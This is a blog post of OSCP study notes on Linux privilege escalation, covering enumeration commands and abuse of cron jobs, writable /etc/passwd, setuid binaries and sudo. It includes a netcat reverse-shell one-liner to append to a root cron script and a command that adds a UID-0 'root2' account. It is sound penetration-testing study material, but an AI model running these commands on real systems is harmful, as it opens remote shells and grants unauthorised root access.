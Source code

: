 ```yaml
---
author: "ZT"
title: Linux Privilege Escalation
description: "Common method of Linux Privilege Escalation"
image: LPE.png
date: 2023-10-10T21:49:28+02:00
categories:
    - Cybersecurity
    - StudyNotes
tags:
    - OSCP
    - PE
math: false
draft: false
---
```


## Introduction

**What is Privilege Escalation?** 

A **privilege escalation** is a cyberattack designed to gain unauthorized privileged access into a system. This not only make us able to access all resources on the system, but also closely related to lateral movement. We can dump other user's credential which saved in this system, so that we can use these credential to try to access other devices on the same intranet. Here I will show you same method to make a privilege escalation on the Linux Operating System.



## Manual Enumeration (Information Gathering)

- `id`
- `hostname`
- `env`: check environment variable
- `cat .bashrc`: check initialization script
- `history`: check previously executed commands
- `cat /etc/passwd`: show all users information
- `uname -a`: check system version and find if this version has kernel vulnerabilities
- `cat /etc/issue`: check system version
- `cat /etc/os-release`: check system version
- `ps aux`: list all process
- `find / -writable -type d 2>/dev/null`: find the folders that you are able to modify
- `find / -perm -u=s -type f 2>/dev/null`: find the executable file with setuid flag
- `find / -name *backup* -type f 2>/dev/null`
- `ls -lah /etc/cron*`: traverse scheduled tasks
- `ss -anp`: display active network connections and listening ports
- `lsmod`: enumerate the loaded kernel modules

## Automated Enumeration (Information Gathering)

- [linPEAS](https://github.com/carlospolop/PEASS-ng/releases)
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check) [standard | detailed]

## Abusing Cron Jobs

1. Check cron job: `grep "CRON" /var/log/syslog`

2. Find the job which will run with the root permission

3. Check if this job's file is writable

4. Write payload to this file and wait: `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [local ip] [port] >/tmp/f" >> [target job file].sh`

## Abusing Password Authentication

1. Check passwd & shadow file permission, check if passwd file is writable or shadow file is readable

2. Linux password hash algorithm: sha-256, we can use openssl to generate it

3. Generate password hash command: `openssl passwd [passsword]`

4. If passwd file is writable, we can use `echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd` to overwrite the credential of root

## Abusing setuid Binaries and Capabilities

1. Find program which has setuid permission: `/usr/sbin/getcap -r / 2>/dev/null`

2. Go to [GTFOBins](https://gtfobins.github.io/) to find exploit. This website provides an organized list of UNIX binaries and how can they be misused to elevate our privileges

## Abusing Sudo

1. Run `sudo -l` to check our permission

2. Go to [GTFOBins](https://gtfobins.github.io/) to find exploit

## By the way

Privilege escalation is very flexible, and the methods I introduced are only the most common ones. In a real case, you need to do the information gathering carefully, and try to exploit human behaviors, design flaws or oversights in operating systems or web applications. I recommend carefully checking the output information of **linpeas**, which often contains vulnerabilities that you can use to escalate privileges.


